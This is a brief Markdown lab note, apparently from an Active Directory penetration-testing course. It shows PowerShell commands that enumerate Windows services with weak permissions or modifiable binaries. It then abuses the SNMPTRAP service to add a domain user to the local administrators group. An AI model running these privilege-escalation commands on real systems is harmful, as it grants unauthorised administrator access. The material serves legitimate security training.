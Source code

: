 # Enumerate which services allow the current user to make changes to the service binary:
```
Get-ModifiableServiceFile -Verbose
```
![4d307d8415fdc9fedd3fffbf37c8eb64.png](../../_resources/7c7f2d761eff431bab247f6f0561fb5c.png)

# Enumerate services with weak service permissions:
```
Get-ModifiableService -Verbose
```

![b6cb95cd93004a6814e4aa72cd4e4a12.png](../../_resources/0a0abfcb5386464882a7afca930834bb.png)

![f17fd8b0852dc3c4eb904137bcfcd965.png](../../_resources/8620b51448934f3c995482cef612e8d2.png)

# Abuse function for Get-ModifiableService and add our current domain user to the local administrators group:
```
Invoke-ServiceAbuse -Name 'SNMPTRAP' -UserName 'dcorp\student537'
```
